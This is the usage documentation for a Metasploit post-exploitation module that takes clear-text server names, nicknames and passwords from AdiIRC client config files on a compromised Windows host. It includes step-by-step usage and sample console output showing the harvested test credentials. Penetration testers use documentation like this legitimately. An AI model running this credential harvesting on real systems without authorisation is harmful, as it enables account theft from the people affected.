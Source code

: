 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Adi IRC Client.

The Adi IRC Client is avaialble from (https://www.adiirc.com/).

This module extracts information from the config.ini and networks.ini files in the "AppData\Local\AdiIRC" directory.

This module extracts server information such as server name, server port, user name, and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/adi_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### AdiIRC Client v4.4 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Adi irc's Config file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083920_default_10.0.0.2_AdiIRCconfig.ba_051695.bak

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_949744.bak
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCconfig.in_618977.ini

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_981500.ini
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCnetworks._976889.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_EXTRACTIONconfig_407804.ini
[*] Adi irc's Networks file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._497206.ini

[*] undefined method `each' for nil:NilClass
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._102963.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### AdiIRC Client v4.4 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```
msf post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Adi irc's base folder not found in user's user directory

[-] Adi irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for config.
[*] Adi irc's Config file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083813_default_10.0.0.2_AdiIRCconfig.ba_900175.bak

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_209914.bak
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCconfig.in_918837.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_383684.ini
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._579169.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_073623.ini
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for networks.
[*] Adi irc's Networks file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._045399.ini

[*] undefined method `each' for nil:NilClass
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083815_default_10.0.0.2_AdiIRCnetworks._439992.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
